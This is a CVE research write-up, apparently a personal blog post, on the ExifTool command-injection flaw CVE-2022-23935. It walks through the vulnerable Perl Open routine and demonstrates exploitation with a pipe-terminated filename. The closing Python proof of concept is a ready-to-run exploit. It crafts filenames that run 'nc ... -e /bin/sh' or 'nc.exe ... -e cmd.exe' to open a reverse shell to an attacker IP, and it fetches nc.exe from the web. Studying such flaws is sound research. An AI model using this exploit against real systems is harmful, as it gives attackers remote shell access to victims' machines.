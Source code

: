 ```yaml
---
title: CVE-2022-23935 - CVE Research
time: 2025-07-30 12:00:00
categories: [research]
tags: [research,CVE]
image: /assets/posts/CVE-2022-23935/1.png
---
```


## Introduction
## 🔒 CVE-2022-23935 Summary


| Field               | Information                     |
|--------------------|----------------------------------|
| **CVE ID**         | CVE‑2022‑23935                   |
| **CVSS Score**     | 7.8 (**HIGH**)                   |
| **Affected**       | ExifTool before version 12.38   |
| **Vulnerability**  | OS Command Injection             |
| **Release Date**   | 25/01/2022                       |

## Methodology
##### `lib/Image/ExifTool.pm` in ExifTool before 12.38 mishandles a `$file =~ /\|$/` check, leading to command injection.
### Analyst source code 
##### I started by downloading version 12.34 from the [github of Exiftool](https://github.com/exiftool/exiftool/releases/tag/12.34)
##### Open the Perl file located at `lib/Image/ExifTool.pm`
##### The vulnerability was found in the `Open` function.

```perl=
sub Open($*$;$)
{
    my ($self, $fh, $file, $mode) = @_;

    $file =~ s/^([\s&])/.\/$1/; # protect leading whitespace or ampersand
    # default to read mode ('<') unless input is a pipe
    $mode = ($file =~ /\|$/ ? '' : '<') unless $mode;
    if ($mode) {
        if ($self->EncodeFileName($file)) {
            # handle Windows Unicode file name
            local $SIG{'__WARN__'} = \&SetWarning;
            my ($access, $create);
            if ($mode eq '>') {
                eval {
                    $access  = Win32API::File::GENERIC_WRITE();
                    $create  = Win32API::File::CREATE_ALWAYS();
                }
            } else {
                eval {
                    $access  = Win32API::File::GENERIC_READ();
                    $access |= Win32API::File::GENERIC_WRITE() if $mode eq '+<'; # update
                    $create  = Win32API::File::OPEN_EXISTING();
                }
            }
            my $share = 0;
            eval {
                unless ($access & Win32API::File::GENERIC_WRITE()) {
                    $share = Win32API::File::FILE_SHARE_READ() | Win32API::File::FILE_SHARE_WRITE();
                }
            };
            my $wh = eval { Win32API::File::CreateFileW($file, $access, $share, [], $create, 0, []) };
            return undef unless $wh;
            my $fd = eval { Win32API::File::OsFHandleOpenFd($wh, 0) };
            if (not defined $fd or $fd < 0) {
                eval { Win32API::File::CloseHandle($wh) };
                return undef;
            }
            $file = "&=$fd";    # specify file by descriptor
        } else {
            # add leading space to protect against leading characters like '>'
            # in file name, and trailing "\0" to protect trailing spaces
            $file = " $file\0";
        }
    }
    return open $fh, "$mode$file";
}
```
##### `$mode = ($file =~ /\|$/ ? '' : '<') unless $mode;` means: if the filename ends with `|`, open a pipe (`$mode = ''`), otherwise open in read mode (`$mode = '<'`).
##### If `$mode = '<'`, then the code runs: `open $fh, "<$file"` (read the file).
##### However, `$file =~ s/^([\s&])/.\/$1/;` only protects against leading whitespace or `&`, and **does not sanitize the rest of the filename**.
##### If I rename the file to `a.jpg|whoami|` (note: `|whoami|` at the end), then `$mode = ''`, so code executes: `open $fh, "a.jpg|whoami|"`.
## Exploitation
##### I tested with the file named `a.jpg|whoami|`
![image](/assets/posts/CVE-2022-23935/2.png)
##### Based on the information, the file name is confirmed as `a.jpg`, not `a.jpg|whoami|`, which indicates that the exploit was successful. However, since `a.jpg` doesn't exist, the whoami command was not executed.
##### So I added the file a.jpg to the folder and renamed it to a reverse shell payload.
![image](/assets/posts/CVE-2022-23935/3.png)
##### Also, open port 4444 on the attacker’s machine to start listening.

```
nc -lvnp 4444
```
##### After running, the file a.jpg was opened and the reverse shell connected successfully.
![image](/assets/posts/CVE-2022-23935/4.png)
![image](/assets/posts/CVE-2022-23935/5.png)
##### Try sending a message to the victim.
![image](/assets/posts/CVE-2022-23935/6.png)
![image](/assets/posts/CVE-2022-23935/7.png)
##### Now, I will write a proof of concept (PoC) for this vulnerability.

```python
import argparse
import requests
import shutil
import zipfile
import os

parser = argparse.ArgumentParser()
parser.add_argument("victim_os", help="Victim's OS: linux or windows")
parser.add_argument("attacker_ip", help="Attacker's IP address")
parser.add_argument("attacker_port", help="Attacker's port")
args = parser.parse_args()

victim_os = args.victim_os.lower()
attacker_ip = args.attacker_ip
attacker_port = args.attacker_port

image_url = "https://i.pinimg.com/736x/c9/ee/6d/c9ee6d47f7b18fc4e27dc77eb71d53d3.jpg"
response = requests.get(image_url)
with open("image.jpg", "wb") as f:
    f.write(response.content)
print("[+] Image downloaded: image.jpg")

if victim_os == "linux":
    malicious_name = f"image.jpg|nc {attacker_ip} {attacker_port} -e /bin/sh|"
elif victim_os == "windows":
    nc_url = "https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc.exe"
    response = requests.get(nc_url)
    with open("nc.exe", "wb") as f:
        f.write(response.content)
    malicious_name = f"image.jpg|nc.exe {attacker_ip} {attacker_port} -e cmd.exe|"
else:
    print("[-] Invalid OS. Only 'linux' or 'windows' are accepted.")
    exit()

shutil.copyfile("image.jpg", malicious_name)
print(f"[+] Malicious file created: {malicious_name}")
print("Run: nc -lvnp " + attacker_port + " on the attacker's machine to receive the victim's connection.")
```











